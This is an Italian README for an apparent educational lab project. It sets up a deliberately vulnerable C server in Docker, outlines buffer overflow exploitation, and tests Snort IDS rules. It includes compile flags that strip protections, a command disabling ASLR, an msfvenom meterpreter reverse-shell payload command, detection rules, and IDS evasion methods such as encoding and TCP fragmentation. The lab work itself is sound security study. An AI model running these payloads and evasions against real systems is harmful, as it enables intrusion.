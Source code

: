 # Buffer_Overflow_1

Un attacco di buffer overflow in un contesto di reti, rilevabile tramite un IDS basato su Snort

# Exploit Buffer Overflow & Analisi IDS

## Panoramica

Questo progetto consiste nel realizzare uno scenario di attacco ad un server TCP con una **vulnerabilità di buffer overflow** in un ambiente containerizzato ed isoltato tramite Docker. L'obiettivo è comprendere il funzionamento di questo tipo di attacco, sviluppare un exploit funzionante per ottenere **una shell remota** sulla macchina target dell'attacco e testare un **Intrusion Detection System (IDS)** per identificare l'attacco monitorando il traffico di rete e successivamente bypassare il suo rilevamento.

Il progetto include:

- Un **server TCP vulnerabile** scritto in C implementato e compilato al fine di renderlo vulnerabile a questo tipo di attacco.
- Un serie di **exploit** che consentono di sfruttale la vulnerabilità, bypassare il controllo delle credenzialio ottenere una **reverse shell**.
- Un sistema IDS realizzato con Snort con alcune **regole IDS** per il rilevamento dell'attacco.
- **Tecniche di evasione IDS** per dimostrare i limiti dei sistemi rule-based.
  Lo scenario è stato realizzato in un ambiente containerizzato in cui le entità interagiscono secondo lo schema di rete di seguito riportato:
  ![](img/schema.png)

---

## Configurazione del Progetto

E' possibile avviare lo scenario lanciando lo script predisposto start_env.sh con privilegi di superuser, successivamente sarà necessario accedere al container del server e lanciare il server con uno script di avvio (start_server.sh) e operare l'esecuzione degli exploit collegandosi tramite shell interattiva alla container del client attaccante.

### Descrizione dello scenario

Il server contiene una vulnerabilità di buffer overflow realizzata tramite l'utilizzo della funzione strcpy() della libreria standard del linguaggio C, è compilato disabilitando le protezioni di sicurezza per facilitare l'exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

La sua implementazione è consultabile nel file server/server_vuln.c

Al fine di consentire l'attacco sarà inoltre necessario disabilitare i meccanismi di sicurezza del kernel atti a prevenire questo tipo di attacco, vale a dire l'ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Collegandosi al server lo stesso richiederà di inserire le credenziali di accesso al sistema, inserendo le credenziali corrette il sistema risponde con un messaggio di avvenuta autenticazione e restituisce una ASCII Art.
![](img/access.png)
Il client attaccante può testare il servizio inviando dapprima un input di elevate dimensioni utilizzando python da riga di comando:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in questo modo, se il server non risponde e non fornisce risposta, vorrà dire che è crashato, questo non solo si configura come un attacco di Denial-of-Service, ma risulta essere un chiaro indizio sulla possibilità di un mancato controllo dell'input inviato dall'utente che espone il server ad una vulnerabilita di Buffer Overflow.

Procedendo in maniera incrementale, però è possibile sfruttare la vulnerabilità di buffer overflow e fornendo un input della giusta dimensione di potrà sovrascrivere il parametro di ritorno della funzione di autenticazione con un valore diverso da 0 e superare la verifica delle credenziali pur non conoscendole. Questo attacco è stato implementato ed è consultabile nel file **exploit_auth_result.py**.

Al fine di portare a termine un attacco più strutturato è necessario calcolare l'offset dell'input dopo il quale viene sovrascritto l' **Extended Instruction Pointer**, cella di memoria che contiene l'indirizzo della funzione chiamante per restituirgli il controllo.
Per far ciò è stato utilizzato il debugger gdb e gli strumenti del **Metasploit Framework (msf-pattern_create e msf-pattern_offset)** per ottenere questa informazione.
Successivamente è stato predisposto un payload contenenete codice da iniettare per l'apertura di una reverse TCP shell sulla macchina target verso la macchina attaccante attraverso il tool msfvenom del Framework Metasploit tramite il comando:

```bash
msfvenom −p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true −f python
```

lo stesso è stato concatenato a del padding per riempire lo stack fino all'EIP, un indirizzo di memoria per sovrascrivere l'EIP con l'idirizzo di uan cella contenente il nostro codice iniettato, una serie di NOP slide instruction e l'effettivo payload generato. Lanciando l'exploit e facendo si che il client attacante si metta in ascolto sulla porta per specificata otterremo una shell remota della macchina target ormai compromessa.
![](img/shell.png)

## Configurazione IDS e Rilevamento dell'Attacco

Il sistema di rilevamento dell'attacco è stato realizzato con **Snort**, configurato per monitorare il traffico tra client e server con delle regole custom per il rilevamento di possibili attacchi sulla nostra rete interna. Sono state definite regole per rilevare l'attacco di buffer overflow analizzando pattern caratteristici nel payload inviato dall'attaccante.

### Regole IDS per il Rilevamento

Di seguito sono riportate le regole implementate in Snort per identificare il tentativo di exploit ed eventuali successive contromisure da parte dell'attaccante, definendo un escalation di tecniche di attacco e contromisure che sono state implementate ed analizzate nel presente elaborato.

#### Rilevamento di Sequenze Ripetute (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow";
    pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Contromisura

La regola tuttavia può generare falsi positivi ed è facilmente bypassabile con sequenze casuali di caratteri per il padding.

#### Rilevamento di Firme associate all'esecuzione di /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Contromisura

Utilizzando l'encoding Shitaka Ga Nai offerto da msfvenom possiamo facilmente bypassare il controllo

#### Rilevamento di Firme associate all'decoder Shitaka Ga Nai (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classtype:attempted-admin; sid:1000004; rev:1;)
```

##### Contromisura

Utilizzando la frammentazione TCP possiamo impedire all'ids, che di default verifica la presenza di firme associate alle regole nel singolo pacchetto, per frammentare il payload e bypassare il controllo

#### Configurazione di Snort per consentire all'IDS di ricostruire i flussi TCP

Configurazione del file snort.conf per abilitare il preprocessor stream5_tcp per analizzare il contenuto inviato nel flusso TCP ricostruendo i frammenti inviati.
